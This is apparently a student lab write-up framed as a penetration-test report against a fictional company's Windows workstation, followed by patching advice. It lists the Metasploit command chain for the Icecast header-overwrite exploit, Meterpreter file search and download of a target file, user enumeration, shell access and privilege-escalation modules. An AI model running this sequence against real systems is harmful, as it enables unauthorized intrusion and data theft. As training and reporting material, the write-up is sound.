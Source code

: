 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

-Run the Nmap command that performs a service and version scan against the target.

> **Answer:** nmap -sV 192.168.0.20

 ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

-Run the SearchSploit commands to show available Icecast exploits.

 **Answer:** searchsploit icecast

 ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

-Run the command that starts Metasploit:

 **Answer:** msfconsole

 ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

-Run the command to search for the Icecast module:

 **Answer:** search icecast

 ![search_icecast](Screenshots/search_icecast_command.png)
 
-Run the command to use the Icecast module:

 **Answer:** use 0

 ![use](Screenshots/use_0_command.png)
 
-Run the command that sets the RHOST:

 **Answer:** set RHOST 192.168.0.20

 ![RHOST](Screenshots/use_rhost_command.png)
 
-Run the command that runs the Icecast exploit.

 **Answer:** exploit

 ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

-Run the command that performs a search for the secretfile.txt on the target.

 **Answer:** search -f *secretfile*.txt

 ![secretfile](Screenshots/secretfile_command.png)

-Run the command to performs a search for the recipe.txt on the target:

 **Answer:** search -f *recipe*.txt

 ![recipe](Screenshots/recipe_command.png)

-Run the command that ex-filtrates the recipe*.txt file:

 **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

 ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

Verify that you have successfully downloaded the file.

 **Verification:**

 ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

-Run the command to use Meterpreter’s local exploit suggester.

 **Answer:** run post/multi/recon/local_exploit_suggester

 ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

-Run a Meterpreter post script that enumerates all logged on users.

 **Answer:** run post/windows/gather/enum_logged_on_users

 ![enum_users](Screenshots/logged_on_users_command.png)

-Run the command to open a Meterpreter shell and gather system information for the target.

 **Answer:** shell

 ![shell](Screenshots/shell_command.png)

-Run the command that displays the target's computer system information:

 **Answer:** systeminfo

 ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

 ![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

 ![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
